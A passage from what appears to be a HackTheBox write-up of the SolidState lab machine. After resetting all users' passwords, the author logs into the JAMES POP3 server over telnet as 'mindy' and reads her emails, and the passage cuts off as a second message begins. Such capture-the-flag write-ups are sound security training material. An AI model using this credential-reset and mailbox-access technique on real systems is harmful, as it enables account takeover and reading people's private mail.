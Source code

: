 Now that I've sent a request to reset every user's password, I went on to check if any of the users received mail on the mail server.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/SolidState]
└─$ telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
USER mindy
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
+OK
PASS password
+OK Welcome mindy
LIST
+OK 2 1945
1 1109
2 836
.
RETR 1
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <5420213.0.1503422039826.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 798
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
From: mailadmin@localhost
Subject: Welcome

Dear Mindy,
Welcome to Solid State Security Cyber team! We are delighted you are joining us as a junior defense analyst. Your role is critical in fulfilling the mission of our orginzation. The enclosed information is designed to serve as an introduction to Cyber Security and provide resources that will help you make a smooth transition into your new role. The Cyber team is here to support your transition so, please know that you can call on any of us to assist you.

We are looking forward to you joining our team and your success at Solid State Security. 

Respectfully,
James
.
RETR 2
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,
```